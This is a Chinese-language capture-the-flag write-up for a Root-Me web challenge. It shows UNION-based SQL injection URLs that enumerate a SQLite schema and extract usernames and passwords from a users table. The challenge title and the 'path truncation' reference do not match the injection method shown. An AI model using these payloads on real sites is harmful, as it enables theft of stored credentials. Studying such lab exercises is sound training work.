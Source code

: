 Root-Me [SQL Truncation](https://www.root-me.org/en/Challenges/Web-Server/SQL-Truncation)
===

簡單的頁面，但有兩個籤頁 `Home`、`Administration`。(?

## 解題關鍵
1. SQL-i
2. SQLite
3. PHP

## 提示訊息
```
Retrieve an access to the administration’s zone.
```

## 解題方法
該題跟 [33] SQL injection - string 有點像，首先還是簡單的測試一下，該頁面有提供登入功能，以及新聞查看功能，而新聞有三篇文章。  

簡單猜測大概是要用 SQL-i 取得管理員密碼，並登入取得 Flag，所以 SQL-i 的弱點應該不會在 `Login` 的部分。  

```
action=news&news_id=1 + 1  //Fail
action=news&news_id=1 - 1  //Success
```

透過上方的簡單判斷，該部分讀取的類型為 `int`，所以不必使用單引號就可以注入 SQL 指令。  

```
http://challenge01.root-me.org/web-serveur/ch18/
?action=news
&news_id=1 union select 1,2,name FROM sqlite_master  --
```

![](img/01.png)  

注入以上指令之後可以發現有兩個欄位 `news`、`users` 兩個，接著查看欄位的結構。  

```
http://challenge01.root-me.org/web-serveur/ch18/
?action=news
&news_id=-1 union select 1,2,sql FROM sqlite_master  --
```

![](img/02.png)  

接著秀出 `users` 資料表的 `username`、`password` 欄位值，解決該題。  

```
http://challenge01.root-me.org/web-serveur/ch18/
?action=news
&news_id=-1 union select 1,username,password FROM users  --
```

![](img/03.png)  

## Reference
http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20PHP%20path%20truncation.html  


## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)